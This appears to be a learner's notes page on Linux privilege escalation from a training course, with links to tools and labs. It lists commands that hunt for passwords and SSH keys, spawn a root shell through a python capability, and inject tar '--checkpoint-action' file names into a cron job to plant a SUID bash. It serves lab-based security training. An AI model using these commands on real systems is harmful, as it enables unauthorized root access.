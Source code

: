TCM-Sec Linux Privilege Escalation for beginner
================================================

Resources for this video:

https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources


https://tryhackme.com/room/linuxprivescarena



https://gtfobins.github.io/



Basic Linux Privilege Escalation - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Linux Privilege Escalation - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

Checklist - Linux Privilege Escalation - https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist

Sushant 747's Guide (Country dependant - may need VPN) - https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html



system enumeration
==================
#uname -a 
#lscpu
#ps aux | grep root



User Enumeration
=================
#whoami
#id
#sudo -l
#cat /etc/passwd

#locate password | more [Password Hunting]




Auto Enumeration Tools
======================

LinPeas - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

LinEnum - https://github.com/rebootuser/LinEnum

Linux Exploit Suggester - https://github.com/mzet-/linux-exploit-suggester

Linux Priv Checker - https://github.com/sleventyeleven/linuxprivchecker



Escalation via SSH KEY
----------------------

#find / -name authorized_keys 2> /dev/null

#find / -name id_rsa 2 > /dev/null



Escalation via Capabilities
---------------------------
#getcap -r / 2>/dev/null
/usr/bin/python2.6 = cap_setuid+ep

#/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'


Escalation via SUID
---------------------
#find / -perm -u=s -type f 2>/dev/null




Scheduled Tasks (Cron)
----------------------
#cat /etc/crontab
#echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/smn/backup/shell.sh
#chmod +x shell.sh
#touch /home/smn/backup/--checkpoint=1
#touch /home/smn/backup/--checkpoint-action=exec=sh\ shell.sh
#/tmp/bash -p [got root]

